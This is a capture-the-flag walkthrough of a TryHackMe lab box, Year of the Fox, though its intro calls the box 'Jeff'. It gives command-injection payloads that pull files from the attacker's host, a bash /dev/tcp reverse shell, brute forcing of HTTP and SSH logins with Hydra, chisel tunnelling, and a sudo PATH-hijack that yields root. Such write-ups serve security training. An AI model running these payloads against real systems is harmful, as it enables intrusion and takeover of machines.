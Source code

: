 In this walkthrough, we'll go over a challenge (hard) level box called ***Jeff*** on [TryHackMe](https://tryhackme.com/room/jeff) 

![Yof](yof.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.47.77 --open
```
Per the nmap result, it looks like port 80 is open:
```bash
Nmap scan report for 10.10.47.77
Host is up (0.27s latency).

PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=You want in? Gotta guess the password!
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: YEAROFTHEFOX)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: YEAROFTHEFOX)
Service Info: Hosts: year-of-the-fox.lan, YEAR-OF-THE-FOX

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m38s, median: 0s
|_nbstat: NetBIOS name: YEAR-OF-THE-FOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: year-of-the-fox
|   NetBIOS computer name: YEAR-OF-THE-FOX\x00
|   Domain name: lan
|   FQDN: year-of-the-fox.lan
|_  System time: 2021-06-30T01:45:59+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-30T00:45:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 29 20:46:06 2021 -- 1 IP address (1 host up) scanned in 22.08 seconds
```
![YoF index](yof-http-basic-auth.png)

It looks like we are being asked to enter credentials. I also realize that SMB is also running on this server so let's enumerate SMB as well:
`enum4linux -a -o 10.10.242.71`
![YoF enum4linux1](yof-enum4linux1.png)
![YoF enum4linux2](yof-enum4linux2.png)

User | User Type
----- | ---------
fox | Local User
rascal | Local User

At this point, we can try to brute force the HTTP basic auth with Hydra `hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.242.71 http-get`:

![YoF HTTP Basicauth](yof-http-basicauth-bruteforce.png)

Username | Password
----------- | --------
rascal | jesussaves

We can login with the above credentials:
![YoF Authenticated Login](yof-authenticated-login.png)

However, there isn't much here and we can proxy the traffic via Burp after much enumeration, I use the below script to upload a test file:
`"\"; wget http://10.13.6.172:80/test.txt -O /tmp/t.txt; echo\""`
![YoF Command Injection](yof-command-injection-test.png)

This action is successful:

![YoF Python Server](yof-python-server.png)

Another comand injection script `\";echo d2hvYW1p | base64 -d | bash \n`
![YoF Command Injection](yof-command-injection-whoami.png)

We can now create a file called "revshell.sh" and insert the below payload for getting a reverse shell:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.13.6.172/5555 0>&1
```
Using the same method, we upload the file to "/tmp" directory `"\"; wget http://10.13.6.172:80/revshell.sh -O /tmp/revshell.sh; echo\""`

After that we start a listener with nc `nc -nlvp 5555`

We can then run the following command `"\"; bash /tmp/revshell.sh; echo\""`:
![YoF bash revshell](yof-bash-revshell.png)
![YoF initial foothold](yof-initial-foothold.png)

After running linpeas, I find a lot of rabbit holes, but one finding is interesting:
![YoF linpeas](yof-linpeas.png)

SSH is running locally so we can move chisel to the target machine and forward the port:
1. Edit proxychains.conf `socks 127.0.0.1 9999`:

	![YoF Proxchains Conf](yof-proxchains-conf.png)
2. Run the following on the local machine `./chisel_1.7.6_linux_amd64 server --socks5 -p 1111 --reverse`
	![YoF Chisel Server](yof-chisel-server.png)
3. Run the following on target machine `./chisel_1.7.6_linux_amd64 client 10.13.6.172:1111 R:9999:127.0.0.1:22`
	![YoF Chisel Client](yof-chisel-client.png)
  
We can then try to brute force the SSH service with Hydra `hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:9999 -v -f`:

![YoF Hydra](yof-hydra-ssh.png)

Username | Password
----------- | --------
fox | michelle1

We can now SSH into the server with above credentials `ssh -p 9999 fox@127.0.0.1`:

![YoF SSH](yof-ssh.png)

It looks like fox user could run "/usr/sbin/shutdown" as root without any passwords:
![YoF FOX Sudo](yof-fox-sudo-l.png)

We then transfer "/usr/sbin/shutdown" to my local Kali machine and inspected it with `strings shutdown`
![YoF Strings](yof-strings-shutdown.png)

Next we copy "/bin/bash" to "/tmp"
`cp /bin/bash /tmp/bash`

We can now run the following command `sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown` to get a root shell:
![YoF Root Shell](yof-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
